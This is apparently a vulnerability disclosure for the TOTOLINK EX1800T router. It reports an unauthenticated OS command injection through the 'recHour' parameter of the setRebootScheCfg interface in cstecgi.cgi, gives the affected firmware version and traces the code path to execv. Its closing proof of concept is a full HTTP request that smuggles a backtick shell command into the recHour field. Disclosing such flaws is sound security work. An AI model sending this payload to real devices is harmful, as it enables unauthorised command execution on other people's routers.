





# OS Command Injection 07 setRebootScheCfg->recHour

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘recHour’ parameter of the setRebootScheCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the recHour field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setRebootScheCfg`​ Interface, `recHour`​variable recevies the key parameter:



And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `recHour`​'s value

In `Uci_Set_Str`​:



the `a4`​ parameter we can pass by `recHour`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection



## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 126
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"mode":"","week":"","hour":"","minute":"","recHour":"0`id>>../recHour.txt`","token":"","topicurl":"setting/setRebootScheCfg"}
```




